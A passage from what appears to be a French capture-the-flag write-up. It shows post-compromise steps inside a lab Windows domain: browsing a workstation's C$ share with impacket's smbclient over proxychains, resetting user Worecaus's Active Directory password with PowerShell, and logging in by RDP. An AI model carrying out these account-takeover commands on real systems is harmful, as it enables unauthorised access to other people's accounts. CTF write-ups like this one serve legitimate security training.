 Et ensuite, listons les utilisateurs de la workstation.

```
proxychains impacket/examples/smbclient.py Administrator@admdesk01.pramacorp.fr 
# shares
ADMIN$
C$
IPC$
# use c$
# ls
drw-rw-rw-          0  Wed Jun 20 15:55:53 2018 $Recycle.Bin
drw-rw-rw-          0  Fri Mar 23 16:50:26 2018 Documents and Settings
-rw-rw-rw- 1717772288  Wed Jun 20 19:27:52 2018 hiberfil.sys
-rw-rw-rw-  738197504  Wed Jun 20 19:27:53 2018 pagefile.sys
drw-rw-rw-          0  Fri Mar 23 16:41:03 2018 PerfLogs
drw-rw-rw-          0  Tue Jun 26 11:15:52 2018 Program Files
drw-rw-rw-          0  Tue Jun 26 11:15:54 2018 Program Files (x86)
drw-rw-rw-          0  Tue Jun 26 11:35:40 2018 ProgramData
drw-rw-rw-          0  Fri Mar 23 16:50:38 2018 Recovery
-rw-rw-rw-  268435456  Wed Jun 20 19:27:53 2018 swapfile.sys
drw-rw-rw-          0  Fri Mar 23 17:00:33 2018 System Volume Information
drw-rw-rw-          0  Wed Jun 20 15:55:39 2018 Users
drw-rw-rw-          0  Wed Jun 20 17:21:59 2018 Windows
# cd Users
# ls
drw-rw-rw-          0  Wed Jun 20 15:55:39 2018 .
drw-rw-rw-          0  Wed Jun 20 15:55:39 2018 ..
drw-rw-rw-          0  Wed Jun 20 15:58:10 2018 akerva
drw-rw-rw-          0  Fri Mar 23 16:41:59 2018 All Users
drw-rw-rw-          0  Fri Mar 23 16:50:26 2018 Default
drw-rw-rw-          0  Fri Mar 23 16:41:59 2018 Default User
-rw-rw-rw-        174  Fri Mar 23 16:37:49 2018 desktop.ini
drw-rw-rw-          0  Fri Mar 23 16:55:27 2018 Public
drw-rw-rw-          0  Wed Jun 20 13:46:06 2018 SupportIT
drw-rw-rw-          0  Fri Jun  1 15:48:38 2018 Worecaus
# 
```

On remarque l'utilisateur Worecaus.  
On change son mot de passe.

```
powershell "Set-ADAccountPassword -Identity Worecaus -Reset -NewPassword (ConvertTo-SecureString -AsPlainText 'monmdpsecurisedelamort' -Force)"
```

Comme le port RDP est ouvert sur la machine (port 3389), utilisons la bonne vieille interface graphique que tout le monde adore 
J'ai utilisé Remina avec proxychains.

Quand on arrive sur le le bureau distant, un navigateur est ouvert sur la page du top10 OWASP 2017. On remarque aussi d'autres onglets comme le guide de l'ANSSI sur les mots de passe, un onglet pour le site de keepass, putty.

![onglets du navigateur](https://github.com/Sacriyana/CTF-Write-Up/raw/master/ndh16_wonkachallenge/flag6/rdp.png)
